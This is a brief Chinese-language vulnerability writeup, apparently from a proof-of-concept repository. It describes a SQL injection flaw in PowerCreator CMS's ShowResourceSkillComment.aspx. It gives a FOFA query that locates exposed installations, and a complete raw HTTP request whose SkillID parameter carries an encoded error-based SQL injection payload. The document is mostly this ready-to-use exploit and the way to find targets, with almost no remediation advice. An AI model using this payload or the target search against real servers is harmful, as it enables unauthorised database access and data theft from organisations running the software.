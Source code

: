 ## PowerCreator接口ShowResourceSkillComment.aspx存在sql注入漏洞

PowerCreator接口 ShowResourceSkillComment.aspx存在任意文件sql注入漏洞。攻击者可利用该漏洞获取服务器上的信息。

## fofa

```yaml
app="PowerCreator-CMS"
```

![image](https://github.com/user-attachments/assets/fcc5c0c8-6a56-42a0-9aba-0d65b1d63a56)

## poc

```yaml
GET /ShowResourceSkillComment.aspx?rid=3&SkillID=1%20AND%204312%20IN%20%28SELECT%20%28CHAR%28113%29%2BCHAR%28122%29%2BCHAR%28106%29%2BCHAR%28106%29%2BCHAR%28113%29%2B%28SELECT%20%28CASE%20WHEN%20%284312%3D4312%29%20THEN%20CHAR%2849%29%20ELSE%20CHAR%2848%29%20END%29%29%2BCHAR%28113%29%2BCHAR%28122%29%2BCHAR%28120%29%2BCHAR%28118%29%2BCHAR%28113%29%29%29 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Cookie: ASP.NET_SessionId=l2wuj2tri5e554020jeezoyw; language=simpleChineses
Pragma: no-cache
Cache-Control: no-cache


```

